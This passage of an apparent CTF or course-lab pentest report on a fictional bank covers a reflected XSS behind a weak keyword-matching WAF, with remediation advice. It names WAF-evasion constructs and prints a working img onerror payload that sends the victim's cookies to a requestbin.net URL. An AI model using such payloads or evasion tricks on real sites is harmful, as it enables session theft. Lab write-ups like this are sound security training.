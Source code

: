 
### Remediation

User input must be sanitised both from both the client side and the server side. Implement a whitelist to sanitise user input, ideally, through a well supported framework such as `jsoup` or library such as `DOMPurify`. Ensure that any user input is inserted into the DOM as text rather than raw HTML. Furthermore, it is recommended that a strict CSP is in place to stop the execution of untrusted JavaScript. To avoid session cookies being stolen, set cookies to be `HttpOnly` to mitigate QuoccaBank admins affected by this reflected XSS.

## P3 MEDIUM - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog which is almost identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the reflected XSS vulnerability in `science-today`. 

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `query-flag` cookie by using the following payload and reporting the filtered page.

   ```html
   <img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
   ```

![](./images/Pasted%20image%2020210806163815.png)
